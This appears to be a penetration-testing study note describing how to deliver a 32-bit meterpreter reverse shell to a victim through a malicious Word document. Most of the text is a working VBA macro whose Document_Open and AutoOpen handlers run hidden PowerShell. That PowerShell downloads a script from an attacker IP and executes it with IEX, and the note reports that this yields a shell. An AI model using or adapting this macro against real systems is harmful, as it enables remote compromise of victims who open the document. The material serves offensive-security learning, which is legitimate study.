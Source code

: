 ## Bypassing Powershell Execution
Our dll and script are ready to go, and we can execute the script using a 64-bit powershell session.
However, that's not very useful, because our victim will in no world, be running a powershell script in a powershell session to call our shell.

To tackle this, we'll edit our dll to be 32 bit, and also use a 32 bit meterpreter reverse shell that will be called using a word macro.

We start by compiling the code in [Reflective Load](Reflective%20Load.md) note, to be 32 bit instead of 64 bit.

We will then create the macro with the following code, to use powershell to download and run our powershell script:
```VBA
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.160/vs-run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Running the script, we get a shell:
![dn-macro](../../../Screenshots/dn-macro.png)
